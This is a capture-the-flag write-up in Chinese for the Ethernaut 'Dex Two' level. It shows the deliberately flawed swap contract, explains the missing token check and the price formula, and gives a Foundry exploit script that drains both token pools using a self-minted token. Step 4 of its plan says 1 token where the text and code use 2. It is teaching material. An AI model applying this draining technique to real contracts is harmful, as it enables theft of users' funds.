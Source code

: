 # Level 23 - Dex Two
## 題目
[Dex Two](https://ethernaut.openzeppelin.com/level/0xf59112032D54862E199626F55cFad4F8a3b0Fce9)

### 通關條件
This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.
You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.
You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

### 提示
How has the swap method been modified?

### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## 解題
提示說看 `swap(address from, address to, uint256 amount)` 跟上一關的有什麼不一樣：

Dex2：
```solidity=23
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
[Level 22 - Dex](https://hackmd.io/@D13/ethernaut22)：
```solidity
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

兩關的合約在計算價格的方式是一樣的，不一樣的只有這關少一個「條件判斷」；代表可以將不屬於這題的代幣用來交易。這樣就很簡單了，我們只要用別的代幣把 token1 跟 token2 都換出來就好了。
 $$  Amount(token2) = \frac{Amount(token1) * Balance(token2)}{Balance(token1)} $$
 
按照價格公式來看的話，我們只要先給關卡 1 枚我們自建的代幣，再用 1 枚就可以換出 token2 的 100 枚，因為 可以換出的 token2 數量 = 轉進去的 token1 數量 * 關卡中 token2 的數量 / 關卡中 token1 的數量，也就是：`換出 100 枚 = 1 * 100 / 1`。
換完後關卡中有 2 枚，套用上面的思路，只要再給 2 枚就可以將 token1 的 100 枚也換出來，整理攻擊流程：
1. 建立自己的代幣
2. 給關卡 1 枚自己的代幣
3. 用 1 枚自己的代幣，將 token2 全數換出
4. 用 1 枚自己的代幣，將 token1 全數換出
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/23_Dex2.sol";
import "openzeppelin-contracts/token/ERC20/ERC20.sol";

contract ExploitScript is Script {
    DexTwo level23 = DexTwo(payable(your_challenge_address));
    TokenToken tokentoken;

    function run() external {
        vm.startBroadcast();
        
        tokentoken = new TokenToken();
        tokentoken.transfer(address(level23),1);
        tokentoken.approve(address(level23),4);
        address token1 = level23.token1();
        address token2 = level23.token2();
        level23.swap(address(tokentoken), token2, 1);
        level23.swap(address(tokentoken), token1, 2);

        vm.stopBroadcast();
    }
}

contract TokenToken is ERC20 {
    
    constructor() ERC20("TokenToken", "TkTk") public {
        _mint(msg.sender, 4);
    }
}
```